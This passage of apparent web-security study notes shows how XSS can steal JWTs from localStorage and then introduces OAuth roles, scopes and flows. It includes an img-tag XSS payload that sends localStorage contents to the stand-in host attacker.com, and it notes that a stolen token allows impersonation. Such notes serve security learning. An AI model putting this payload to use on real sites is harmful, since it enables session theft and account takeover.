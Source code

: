 

#### JWT Attack Scenario 

When attacking authentication through an XSS vulnerability, we usually try to capture a victim’s cookie as follows.

```html
<script>alert(1)</script>
```



When JWT is employed and localStorage is used, we can attack authentication through XSS using JSON.stringify

```html
<img src=`http://attacker.com?jwt=`+`JSON.stringify(localStorage);`--!>
```

If you obtain an IdToken , you can use it to authenticate and impersonate the victim.

If you obtain an accessToken , you can use it to generate a new IdToken with the help of the authentication endpoint.



## Attacking Oauth

### OAuth

OAuth2 is the main web standard for authorization between services. It is used to authorize 3rd party apps to access services or data from a provider with which you have an account.



**OAuth Components**

- **Resource Owner :** the entity that can grant access to a protected resource. Typically this is the end user.
- **Client :** an application requesting access to a protected resource on behalf of the Resource Owner. This is also called a Relying Party.
- **Resource Server :** the server hosting the protected resources. This is the API you want to access, in our case gallery.
- **Authorization Server :** the server that authenticates the Resource Owner, and issues access tokens after getting proper authorization. This is also called an identity provider ( IdP )
- **User Agent :** the agent used by the Resource Owner to interact with the Client, for example a browser or a mobile application.



OAuth Scopes (actions or privilege requested from the service visible through the scope parameter)

- Read
- Write
- Access Contacts



In OAuth 2.0, the interactions between the user and her browser, the Authorization Server, and the Resource Server can be performed in four different flows.
